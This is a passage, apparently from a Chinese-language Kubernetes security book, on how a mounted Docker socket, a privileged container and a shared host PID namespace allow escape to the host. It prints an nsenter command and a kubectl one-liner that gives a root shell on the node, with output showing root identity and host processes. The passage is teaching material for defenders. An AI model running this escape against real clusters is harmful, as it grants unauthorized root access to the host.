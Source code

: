 如果将 Docker 服务器的客户端面向的套接字挂载到容器中作为读写，那么容器就能够使用 Docker 客户端在同一主机上启动一个新的特权容器。

特权模式移除了所有安全功能，并共享主机的命名空间和设备。因此，在特权容器中的攻击者现在能够打破容器的限制。

最简单的方法是使用命名空间操作工具`nsenter`，它将进入现有的命名空间，或在全新的命名空间中启动一个进程。

这个命令与`docker exec`非常相似：它将当前或新的进程移动到指定的命名空间或多个命名空间中。这样做的效果是在不同的命名空间环境之间传输 shell 会话的用户。

###### 注意

`nsenter` 被视为调试工具，避免进入 `cgroups` 以逃避资源限制。Kubernetes 和 `docker exec` 遵守这些限制，因为资源耗尽可能会 DOS 整个节点服务器。

在这里，我们将在 PID 1 的挂载命名空间中启动 Bash。理解从主机挂载到容器中的 */proc* 文件系统至关重要。从主机挂载到容器的任何内容都可能给我们攻击的机会：

```
$ nsenter --mount=/proc/1/ns/mnt /bin/bash
```

这条命令在 PID 1 的挂载命名空间中启动 Bash。如果省略命令，则默认使用 `/bin/sh`。

如果调用进程位于具有自己挂载命名空间的容器中，则此命令在相同的容器命名空间中启动 Bash，而不是主机的命名空间。

然而，如果调用进程共享主机的 PID 命名空间，则此命令将利用 */proc/1/ns/mnt* 链接。共享主机的 PID 命名空间将显示主机的 */proc* 在容器的 */proc* 中，显示与目标命名空间中以前相同的进程以及每个其他进程的附加进程。

[Duffie Cooley](https://oreil.ly/KijgS) 和 [Ian Coldwater](https://oreil.ly/imCJW) 第一次见面时联合编写了标志性的攻击性 Kubernetes 一行代码（见 图 6-4）。

![haku 0604](img/haku_0604.png)

###### 图 6-4\. Duffie Cooley 的强大巫术，使用 `nsenter` 在允许特权容器和 hostPID 的 Kubernetes 集群中逃逸容器

让我们仔细看看：

```
$ kubectl run r00t --restart=Never \
  -ti --rm --image lol \
  --overrides '{"spec":{"hostPID": true, \
  "containers":[{"name":"1","image":"alpine",\
  "command":["nsenter","--mount=/proc/1/ns/mnt","--",\
  "/bin/bash"],"stdin": true,"tty":true,\
  "securityContext":{"privileged":true}}]}}' ![1](img/1.png)

r00t / # id ![2](img/2.png)
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),...

r00t / # ps faux ![3](img/3.png)
USER     PID %CPU %MEM  VSZ  RSS TTY   STAT START  TIME COMMAND
root       2  0.0  0.0    0    0 ?     S    03:50  0:00 [kthreadd]
root       3  0.0  0.0    0    0 ?     I<   03:50  0:00  \_ [rcu_gp]
root       4  0.0  0.0    0    0 ?     I<   03:50  0:00  \_ [rcu_par_gp]
root       6  0.0  0.0    0    0 ?     I<   03:50  0:00  \_ [kworker/0:0H-kblockd]
root       9  0.0  0.0    0    0 ?     I<   03:50  0:00  \_ [mm_percpu_wq]
```